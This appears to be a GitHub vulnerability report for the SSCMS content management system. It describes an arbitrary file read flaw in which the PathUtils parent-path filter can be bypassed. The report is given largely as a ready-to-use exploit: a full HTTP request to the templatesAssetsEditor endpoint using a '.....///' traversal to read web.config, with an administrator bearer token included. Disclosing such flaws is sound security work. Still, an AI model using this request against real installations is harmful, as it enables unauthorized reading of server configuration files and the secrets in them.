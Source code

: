 SSCMS has an arbitrary file read vulnerability

![image-20250318164500-4e1tr8i](https://github.com/user-attachments/assets/3402e918-74f7-44bc-b904-9a7c35d85a02)


ReadTextAsynchronous is a file reading function.
Click on 'PathUtils' Removed ParentPath 'found filtering present

![image](https://github.com/user-attachments/assets/b8ce0fe7-6a44-41b7-ae74-67bc4b05c519)


But filtering can be bypassed

Then proceed with splicing...////// Read any file

exp:

```shell
GET /api/admin/cms/templates/templatesAssetsEditor?directoryPath=&fileName=.....///.....///.....///.....///.....///.....///www/sscms/web.config&fileType=html&siteId=1 HTTP/1.1
Host: 192.168.202.131
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1laWQiOiIxIiwibmFtZSI6ImFkbWluIiwicm9sZSI6IkFkbWluaXN0cmF0b3IiLCJodHRwOi8vc2NoZW1hcy5taWNyb3NvZnQuY29tL3dzLzIwMDgvMDYvaWRlbnRpdHkvY2xhaW1zL2lzcGVyc2lzdGVudCI6IkZhbHNlIiwibmJmIjoxNzQyMjg5NjcxLCJleHAiOjE3NDIzNzYwNzEsImlhdCI6MTc0MjI4OTY3MX0.p0B6elCBkgsVoOO8AaW524HsKMceoGQBkvBh8zXVWCg
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i


```

![image](https://github.com/user-attachments/assets/3cb81baa-0231-452a-baf8-1f6c4bb0ae9e)
